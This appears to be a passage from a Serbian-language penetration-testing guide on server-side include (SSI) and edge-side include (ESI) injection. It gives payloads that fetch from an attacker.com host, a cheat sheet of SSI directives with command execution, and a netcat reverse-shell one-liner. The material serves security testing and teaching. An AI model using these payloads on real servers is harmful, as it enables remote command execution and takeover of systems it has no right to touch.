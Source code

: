 Da biste proverili da li je ciljni veb server podložan ESI ubrizgavanju, možete koristiti sledeći payload:

```plaintext
<esi:include src="http://attacker.com/malicious.xml" />
```

Ako se sadržaj `malicious.xml` fajla prikaže na stranici, to ukazuje na ranjivost na ESI ubrizgavanje.

#### 3. Testiranje kombinovanog SSI i ESI ubrizgavanja

Da biste proverili da li je ciljni veb server podložan kombinovanom SSI i ESI ubrizgavanju, možete koristiti sledeći payload:

```plaintext
<!--#exec cmd="curl http://attacker.com/malicious.xml" -->
```

Ako se sadržaj `malicious.xml` fajla prikaže na stranici, to ukazuje na ranjivost na kombinovano SSI i ESI ubrizgavanje.

#### 4. Automatizovano testiranje

Možete koristiti alate poput `ssishell` ili `esi_scan` za automatizovano testiranje SSI i ESI ubrizgavanja. Ovi alati će vam pomoći da identifikujete ranjivosti i izvršite dalje testove.

```javascript
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
<!--#set var="name" value="Rich" -->

```
